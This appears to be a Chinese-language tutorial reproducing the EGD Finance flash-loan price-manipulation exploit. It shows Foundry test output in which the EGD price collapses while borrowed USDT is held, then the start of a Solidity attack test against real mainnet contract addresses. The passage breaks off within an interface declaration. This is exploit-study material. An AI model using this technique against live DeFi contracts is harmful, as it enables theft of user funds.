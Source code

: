 输出:

```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract PriceManipulateTest  
[⠑] Compiling...
[⠒] Compiling 1 files with 0.8.17
[⠆] Solc 0.8.17 finished in 2.36s
Compiler run successful

Running 1 test for test/PriceManipulate.t.sol:PriceManipulateTest
[PASS] testPrice() (gas: 90127)
Logs:
  edg price before: 8093644493314726
  edg price after (i borrowed huge USDT out): 60702333
  edg price after (i return the borrowed USDT back): 8498326714945346
```

可以看到在我借出大量USDT后 和 归还借出的USDT前, EDG的价格由 8093644493314726 变成了 60702333,

归还USDT后价格又恢复了.



### 质押USDT获取EDG奖励

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "forge-std/test.sol";

address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
address constant egd = 0x202b233735bF743FA31abb8f71e641970161bF98;
uint256 constant blockheight = 20245522;

interface IEGD_Finance {
    function bond(address invitor) external;

    function stake(uint256 amount) external;

    function calculateAll(address addr) external view returns (uint256);

    function claimAllReward() external;

    function getEGDPrice() external view returns (uint256);

    function userInfo(
        address
    )
        external
        view
        returns (
            uint256 totalAmount,
            uint256 totalClaimed,
            address invitor,
            bool isRefer,
            uint256 refer,
            uint256 referReward
        );
}

interface IERC20 {
    function decimals() external view returns (uint8);

    function balanceOf(address owner) external view returns (uint256);
```